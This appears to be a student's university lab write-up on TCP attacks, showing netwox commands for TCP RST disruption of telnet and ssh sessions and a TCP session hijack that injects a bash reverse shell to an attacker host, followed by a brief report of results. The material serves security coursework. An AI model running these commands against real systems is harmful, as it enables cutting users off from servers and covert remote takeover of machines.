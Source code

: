 ```yaml
---
id: A5
description: and assignments
title: TCP attacks
tags:
  - sfwr4c03
  - assignment
modified: 2025-04-10 18:09:29 GMT-04:00
---
```


## TCP RST Attacks on `telnet` and `ssh`

leg IP: `10.0.0.2`, vic IP: `10.0.0.3`

The `netwox` commands are as follow:

```bash
netwox 78 -d eth0 --filter "host 10.0.0.2 and host 10.0.0.3 and port 23"
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/leg.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker-terminal.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker.webp]]

This is  for SSH

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/ssh-leg.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/ssh-wireshark.webp]]

## TCP Session Hijacking

1. The following is the captured image on attacker node:

```bash
netcat -l 9090 -nv
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker-tcp-hijacking.webp]]

The victim node then perform `bin/bash -i > /dev/tcp/10.0.0.1/9090 0<&1 2>&1`

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/reverse-vic-node.webp]]

The attacker node now completes the reverse shell process, as shown through `ifconfig`

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/reversed-shell-complete-att.webp]]

2. `netwox` command:

```bash
netwox 40 --ip4-src 10.0.0.2 -m 10.0.0.3 -o 58438 -p 23 -q 2811481894 -r 2489318395 -z -H "0d0a'/bin/bash -i > /dev/tcp/10.0.0.1/9090 0<&1 2>&1'0d0a" 
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attack-node-cmd-reverse.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/new-wireshark.webp]]

## report

Based on the results observed from the network penetration tests, both attacks achieved their intended outcomes. The initial assault, conducted with `netwox 78`  effectively terminated the connection between nodes 'leg' and 'vic' as soon as the command was launched. If the disruption persisted, 'leg' was rendered unable to re-establish a link to 'vic', which receiving only a "connection closed by foreign host" message in response.  This situation demonstrates how an attacker could block a user's access to a server without much effort. 

Similarly, the second offensive strategy utilizing `netwox 40` successful in enabling the stealthy execution of commands on 'vic', without leaving any trace of the intrusion. This capability is particularly alarming as it allows an attacker to secretly harvest data or execute harmful activities on a user's machine, where it would ultimately be without their awareness.